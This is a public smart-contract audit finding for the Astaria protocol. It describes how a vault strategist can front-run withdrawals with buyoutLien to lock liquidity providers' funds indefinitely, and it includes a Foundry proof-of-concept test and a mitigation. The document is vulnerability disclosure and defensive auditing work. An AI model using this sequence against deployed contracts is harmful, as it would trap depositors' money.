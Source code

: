 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- downgraded by judge
- satisfactory
- selected for report
- sponsor confirmed
- M-18

# [Public vault owner (strategist) can use buyoutLien to indefinitely prevent liquidity providers from withdrawing](https://github.com/code-423n4/2023-01-astaria-findings/issues/324) 

# Lines of code

https://github.com/code-423n4/2023-01-astaria/blob/main/src/VaultImplementation.sol#L313-L351


# Vulnerability details

## Impact
By calling buyoutLien before transferWithdrawReserve() is invoked (front-run if necessary), Public vault owner (strategist) can indefinitely prevent liquidity providers from withdrawing. He now effectively owns all the fund in the public vault.

## Proof of Concept
https://github.com/code-423n4/2023-01-astaria/blob/main/src/VaultImplementation.sol#L295
https://github.com/code-423n4/2023-01-astaria/blob/main/src/PublicVault.sol#L421
Before commitLien, transferWithdrawReserve() is invoked to transfer available funds from the public vault to the withdrawProxy of the previous epoch. However, this is not the case for buyoutLien. 
https://github.com/code-423n4/2023-01-astaria/blob/main/src/PublicVault.sol#L372-L382
As soon as there's fund is available in the vault, the strategist can call buyoutLien before any calls to transferWithdrawReserve(), and the withdrawProxy will need to continue to wait for available fund.
The only thing that can break this cycle is a liquidation, but the strategist can prevent this from happening by only buying out liens from vaults he control where he only lends out to himself.

Consider the following test. Even though there is enough fund in the vault for the liquidity provider's withdrawal (60 ether), only less than 20 ethers ended up in the withdrawProxy when transferWithdrawReserve() is preceeded by buyoutLien().
```
pragma solidity =0.8.17;

import "forge-std/Test.sol";

import {Authority} from "solmate/auth/Auth.sol";
import {FixedPointMathLib} from "solmate/utils/FixedPointMathLib.sol";
import {MockERC721} from "solmate/test/utils/mocks/MockERC721.sol";
import {
  MultiRolesAuthority
} from "solmate/auth/authorities/MultiRolesAuthority.sol";

import {ERC721} from "gpl/ERC721.sol";
import {SafeCastLib} from "gpl/utils/SafeCastLib.sol";

import {IAstariaRouter, AstariaRouter} from "../AstariaRouter.sol";
import {VaultImplementation} from "../VaultImplementation.sol";
import {PublicVault} from "../PublicVault.sol";
import {TransferProxy} from "../TransferProxy.sol";
import {WithdrawProxy} from "../WithdrawProxy.sol";

import {Strings2} from "./utils/Strings2.sol";

import "./TestHelpers.t.sol";
import {OrderParameters} from "seaport/lib/ConsiderationStructs.sol";

contract AstariaTest is TestHelpers {
  using FixedPointMathLib for uint256;
  using CollateralLookup for address;
  using SafeCastLib for uint256;

  event NonceUpdated(uint256 nonce);
  event VaultShutdown();

  function testBuyoutBeforeWithdraw() public {
    TestNFT nft = new TestNFT(1);
    address tokenContract = address(nft);
    uint256 tokenId = uint256(0);

    address publicVault = _createPublicVault({
      strategist: strategistOne,
      delegate: strategistTwo,
      epochLength: 7 days
    });
    _lendToVault(
      Lender({addr: address(1), amountToLend: 60 ether}),
      publicVault
    );

    address publicVault2 = _createPublicVault({
      strategist: strategistOne,
      delegate: strategistTwo,
      epochLength: 7 days
    });
    _lendToVault(
      Lender({addr: address(1), amountToLend: 60 ether}),
      publicVault2
    );

    (, ILienToken.Stack[] memory stack) = _commitToLien({
      vault: publicVault,
      strategist: strategistOne,
      strategistPK: strategistOnePK,
      tokenContract: tokenContract,
      tokenId: tokenId,
      lienDetails: standardLienDetails,
      amount: 40 ether,
      isFirstLien: true
    });

    vm.warp(block.timestamp + 3 days);

    IAstariaRouter.Commitment memory refinanceTerms = _generateValidTerms({
      vault: publicVault2,
      strategist: strategistOne,
      strategistPK: strategistOnePK,
      tokenContract: tokenContract,
      tokenId: tokenId,
      lienDetails: ILienToken.Details({
        maxAmount: 50 ether,
        rate: (uint256(1e16) * 70) / (365 days),
        duration: 25 days,
        maxPotentialDebt: 53 ether,
        liquidationInitialAsk: 500 ether
      }),
      amount: 10 ether,
      stack: stack
    });

    _signalWithdraw(address(1), publicVault2);
    _warpToEpochEnd(publicVault2);
    PublicVault(publicVault2).processEpoch();

    
    VaultImplementation(publicVault2).buyoutLien(
      stack,
      uint8(0),
      refinanceTerms
    );
    

    PublicVault(publicVault2).transferWithdrawReserve();

    WithdrawProxy withdrawProxy = PublicVault(publicVault2).getWithdrawProxy(0);

    assertTrue(WETH9.balanceOf(address(withdrawProxy)) < 20 ether);
    
  }
}
```

## Tools Used
VSCode, Foundry

## Recommended Mitigation Steps
Enforce a call to transferWithdrawReserve() before a buyout executes (similar to commitLien)